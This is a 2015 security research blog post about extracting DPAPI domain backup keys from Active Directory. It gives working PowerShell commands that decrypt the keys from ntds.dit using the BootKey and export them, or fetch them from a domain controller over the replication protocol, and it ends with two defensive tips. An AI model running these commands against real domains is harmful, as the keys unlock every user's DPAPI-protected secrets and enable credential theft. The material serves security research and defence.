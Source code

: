 ```yaml
---
ref: dpapi-backup-keys
title: 'Retrieving DPAPI Backup Keys from&nbsp;Active Directory'
date: 2015-10-26T22:51:00+00:00
layout: post
lang: en
image: /assets/images/backupkeys_storage.png
permalink: /en/retrieving-dpapi-backup-keys-from-active-directory/
tags:
    - 'Active Directory'
    - DPAPI
    - PowerShell
    - Security
---
```


The Data Protection API (DPAPI) is&nbsp;used by&nbsp;several components of&nbsp;Windows to&nbsp;securely store passwords, encryption keys and&nbsp;other sensitive data. When&nbsp;DPAPI is&nbsp;used in&nbsp;an&nbsp;Active Directory domain environment, a&nbsp;copy of&nbsp;user’s master key is&nbsp;encrypted with&nbsp;a&nbsp;so-called DPAPI Domain Backup Key that&nbsp;is&nbsp;known to&nbsp;all domain controllers. Windows Server 2000 DCs use a&nbsp;symmetric key and&nbsp;newer systems use a&nbsp;public/private key pair. If&nbsp;the&nbsp;user password is&nbsp;reset and&nbsp;the&nbsp;original master key is&nbsp;rendered inaccessible to&nbsp;the&nbsp;user, the&nbsp;user’s access to&nbsp;the&nbsp;master key is&nbsp;automatically restored using the&nbsp;backup key.

<!--more-->

## The&nbsp;Mimikatz Method

Benjamin Delpy has already found a&nbsp;way to&nbsp;extract these backup keys from&nbsp;the&nbsp;LSASS of&nbsp;domain controllers and&nbsp;it&nbsp;even&nbsp;works remotely:

![Mimikatz DPAPI Backup Keys](../../assets/images/mimikatz_backupkeys.png)

## Key Storage

I have taken Benjamin’s research one step further and&nbsp;I&nbsp;can now&nbsp;extract these keys directly from&nbsp;the&nbsp;Active Directory database, where&nbsp;they are&nbsp;physically stored:

![Backup Key Storage](../../assets/images/backupkeys_storage.png)

The keys are&nbsp;stored in&nbsp;the&nbsp;**currentValue** attribute of&nbsp;objects whose names begin with&nbsp;**BCKUPKEY** and&nbsp;are&nbsp;of&nbsp;class **secret**. The&nbsp;**BCKUPKEY_PREFERRED Secret** and&nbsp;**BCKUPKEY_P Secret** objects actually only contain GUIDs of&nbsp;objects that&nbsp;hold the&nbsp;current modern and&nbsp;legacy keys, respectively. Furthermore, the&nbsp;currentValue attribute is&nbsp;encrypted using BootKey (aka SysKey) and&nbsp;is&nbsp;never sent through LDAP.

## The&nbsp;Database Dump Method

The **Get-BootKey**, **Get-ADDBBackupKey** and&nbsp;**Save-DPAPIBlob** cmdlets from&nbsp;my [DSInternals PowerShell Module](/en/projects/) can be&nbsp;used to&nbsp;retrieve the&nbsp;DPAPI Domain Backup Keys from&nbsp;ntds.dit files:

```powershell
# We need to get the BootKey from the SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

<#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#>

# Now we can decrypt the DPAPI backup keys from the database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

<#
Output:

Type : LegacyKey
DistinguishedName : CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {77, 138, 250, 6...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : PreferredLegacyKeyPointer
DistinguishedName : CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {14, 178, 130, 120...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : RSAKey
DistinguishedName : CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {48, 130, 9, 186...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type : PreferredRSAKeyPointer
DistinguishedName : CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {62, 106, 197, 177...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#>

# In most cases, we just want to export these keys to the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in the Keys directory:

(dir .\Keys).Name

<#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#>
```

Note that&nbsp;mimikatz would name these files similarly.

## The&nbsp;DRSR Method

The same result can be&nbsp;achieved by&nbsp;communicating with&nbsp;the&nbsp;Directory Replication Service using the&nbsp;**Get-ADReplBackupKey** cmdlet:

```powershell
Get-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys
```

## Defense

I am already starting to&nbsp;repeat myself:

- Restrict access to&nbsp;domain controller backups.
- Be&nbsp;cautious when&nbsp;delegating the&nbsp;*Replicating Directory Changes All* right.
